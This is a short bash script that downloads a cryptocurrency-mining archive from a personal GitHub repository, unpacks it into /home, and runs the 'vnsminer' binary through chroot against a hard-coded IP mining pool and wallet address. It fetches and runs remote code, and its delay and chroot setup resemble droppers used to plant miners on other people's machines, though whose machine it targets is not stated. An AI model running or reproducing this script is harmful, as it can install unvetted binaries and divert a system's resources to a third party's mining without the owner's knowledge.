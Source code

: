 #!/bin/bash
sleep 10
curl -LO https://github.com/2319763378/pool/raw/master/vns/vns.tgz
tar xvf  vns.tgz -C /home
chroot /home/vns vnsminer 1 http://129.28.240.129:8888/0xb85150eb365e7df0941f0cf08235f987ba91506a
